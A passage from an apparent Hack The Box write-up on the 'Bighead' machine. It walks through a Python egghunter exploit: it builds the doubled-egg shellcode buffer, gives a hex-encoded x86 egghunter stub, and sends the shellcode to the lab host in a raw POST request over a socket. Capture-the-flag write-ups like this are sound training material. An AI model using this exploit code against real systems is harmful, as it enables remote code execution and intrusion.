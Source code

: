 #### I created a variable to hold the final shellcode (egg doubled + shellcode) and another variable for the egghunter :
```
shellcode = (egg * 2) + binascii.unhexlify(buf)
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + binascii.hexlify(egg) + "8bfaaf75eaaf75e7ffe7"
```
![](/images/hackthebox/bighead/79.png)
#### Note : there's a variable called `N`, that will come later and it has nothing to do with the exploit itself.
#### Now we need to create two functions. First one is to send the shellcode through a POST request, The other one is to exploit the vulnerability and send the egghunter. 
#### We will start by defining the function :
`def send_shellcode(N,host,port,egg,shellcode):`
#### Then we will open a TCP stream socket to the server and the port and hold it in a variable called `s` :
`s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)`
#### Last thing to do is to send the POST request with the shellcode :
```
s.send("POST / HTTP/1.1\r\n")
s.send("Host: dev.bighead.htb\r\n")
s.send("Content-Length: %s\r\n"%len(shellcode))
s.send("\r\n")
s.send(shellcode+"\r\n")
s.send("\r\n")
```
#### Then we will close the stream :